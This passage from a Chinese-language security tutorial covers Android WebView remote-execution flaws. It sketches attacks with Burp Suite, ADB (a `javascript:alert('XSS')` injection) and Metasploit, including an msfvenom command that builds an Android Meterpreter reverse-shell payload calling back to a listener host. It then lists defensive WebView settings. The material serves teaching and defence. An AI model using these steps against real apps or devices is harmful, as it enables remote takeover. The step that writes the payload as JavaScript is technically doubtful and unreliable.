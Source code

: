 ## 4. 实际的命令、代码或工具使用说明

### 4.1 使用Burp Suite进行攻击
Burp Suite是一款常用的Web安全测试工具，可以用于检测WebView远程执行漏洞。

**步骤：**
1. 启动Burp Suite并配置代理。
2. 在Android应用中设置Burp Suite为代理。
3. 使用Burp Suite拦截WebView的HTTP请求，并注入恶意JavaScript代码。

### 4.2 使用ADB进行攻击
ADB（Android Debug Bridge）是Android开发工具包中的一个命令行工具，可以用于与Android设备进行交互。

**步骤：**
1. 使用ADB连接到Android设备。
2. 使用ADB命令启动包含WebView的Android应用。
3. 使用ADB命令加载包含恶意JavaScript代码的URL。

**示例命令：**
```bash
adb shell am start -n com.example.app/.MainActivity
adb shell input text "javascript:alert('XSS');"
```

### 4.3 使用Metasploit进行攻击
Metasploit是一款常用的渗透测试工具，可以用于生成恶意Payload并利用WebView远程执行漏洞。

**步骤：**
1. 使用Metasploit生成恶意JavaScript Payload。
2. 将生成的Payload注入到WebView加载的URL中。
3. 观察WebView是否执行了恶意JavaScript Payload。

**示例命令：**
```bash
msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -o malicious.js
```

## 5. 防御措施

### 5.1 禁用JavaScript
在不需要JavaScript支持的情况下，禁用WebView的JavaScript支持。

**示例代码：**
```java
webSettings.setJavaScriptEnabled(false);
```

### 5.2 限制文件访问
限制WebView通过`file://`协议访问本地文件系统。

**示例代码：**
```java
webSettings.setAllowFileAccess(false);
```
